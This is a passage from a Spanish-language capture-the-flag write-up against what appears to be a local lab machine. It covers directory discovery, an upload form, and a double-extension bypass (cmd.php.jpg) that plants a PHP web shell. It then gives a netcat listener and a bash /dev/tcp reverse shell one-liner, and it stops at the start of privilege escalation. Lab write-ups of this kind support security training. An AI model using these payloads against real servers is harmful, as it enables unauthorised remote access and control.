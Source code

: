 Ahora tenemos una ruta nueva:
```bash
/uploads/             (Status: 200) [Size: 762]
```

Tambien tenemos esta ruta donde podemos subir archivos al servidor:
```bash
http://172.17.0.2/themes/archivo.html
```

---
## Explotacion de Vulnerabilidades
### Vector de Ataque
Determinamos que solo esta aplicando la validacion que termine el archivo que subamos en: **( jpg )** asi que podemos intentar un ataque de doble extension:
### Ejecucion del Ataque
Ya capturada la peticion y en el modo **repeater** con **burpsuite** procedemos a cargar esta instraucion despues nos ponemos en escucha:
```bash
# Comandos para explotación
Content-Disposition: form-data; name="file"; filename="cmd.php.jpg"
Content-Type: application/x-php

<?php
  system($_GET["cmd"]);
?>
```

Tenemso ejecucion remota de comandos en el sistema:
```bash
http://172.17.0.2/themes/uploads/6840a9145331c.jpg?cmd=whoami
```
### Intrusion
Modo escucha
```bash
nc -nlvp 443
```

Ahora ejecutamos el archivo subiendolo y en la ruta se cargara nuestro archivo :
```bash
# Reverse shell o acceso inicial
172.17.0.2/themes/uploads/6840a9145331c.jpg?cmd=bash -c 'exec bash -i %26>/dev/tcp/172.17.0.1/443 <%261'
```

---

## Escalada de Privilegios
### Enumeracion del Sistema
```bash
# Comandos clave ejecutados
sudo -l
```
